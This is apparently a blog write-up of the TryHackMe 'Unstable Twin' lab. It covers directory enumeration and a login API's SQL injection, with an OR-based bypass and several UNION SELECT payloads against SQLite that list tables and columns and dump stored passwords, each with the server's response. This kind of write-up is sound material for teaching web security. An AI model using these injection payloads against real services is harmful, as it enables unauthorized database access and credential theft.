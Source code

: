 ```yaml
---
layout: post
title:  "THM: Unstable Twin"
date:   2021-05-02 20:00:00 +1000
category: hacking
---
```


## THM: Unstable Twin
This is [Unstable Twin](https://tryhackme.com/room/unstabletwin) from THM. It's medium rated, and says:

>A Services based room, extracting information from HTTP Services and finding the hidden messages.

I'm not going to writeup the whole thing, because it's got stego and I hate stego. It's web to find some SSH credentials, then some nonsense with stego on the server. 

Dirsearch only finds one thing with the default wordlist, and it's this:

{% highlight shell %}
└─# python3 /opt/dirsearch/dirsearch.py -u http://10.10.173.244 
# snip

[01:05:34] Starting: 
[01:08:17] 200 -  148B  - /info   
{% endhighlight %}

If we go to http://10.10.173.244/info, we get this:

>The login API needs to be called with the username and password form fields fields.  It has not been fully tested yet so may not be full developed and secure

The webserver is nginx. If we try a GET request with the fields we get a message about the method not allowed, so we use POST. There is a SQL injection which we can detect fairly easily. This:

{% highlight html %}
POST /api/login HTTP/1.1
Host: 10.10.173.244
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

username=user&password='+OR+1+--+-
{% endhighlight %}

Gets us this:

{% highlight shell %}
HTTP/1.1 200 OK
Server: nginx/1.14.1
Date: Sat, 01 May 2021 05:17:42 GMT
Content-Type: application/json
Content-Length: 159
Connection: close

[
  [
    1, 
    "mary_ann"
  ], 
  [
    2, 
    "julias"
  ], 
  [
    3, 
    "vincent"
  ], 
  [
    4, 
    "linda"
  ], 
  [
    5, 
    "marnie"
  ]
]
{% endhighlight %}

And we can assume those are users. The weird thing about this box is you have to send the requests twice. **sqlmap** cannot handle this box, and I assume that's because of the double request thing. Anyway, manual commands:

Detect DB (sqlite):

``
username=1' UNION SELECT 1,sqlite_version();--&password=what
``

Response:

>"3.26.0"

Table names:

``
username=1' UNION SELECT 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'--&password=what
``

Response (trimmed):

>"users,notes"

Column names:

``
username=1' UNION SELECT 1,group_concat(sql) from sqlite_master where tbl_name = 'users' AND type = 'table'--&password=what
``

Response (trimmed):

>"CREATE TABLE \"users\" (\n\t\"id\"\tINTEGER UNIQUE,\n\t\"username\"\tTEXT NOT NULL UNIQUE,\n\t\"password\"\tTEXT NOT NULL UNIQUE,\n\tPRIMARY KEY(\"id\" AUTOINCREMENT)\n)"

Data exfil:

``
username=1' UNION SELECT 1,group_concat(password) from users--&password=what
``

Response:

>"Green,Orange,Red,Yellow ,continue..."

And after that the rest is kinda whatever.

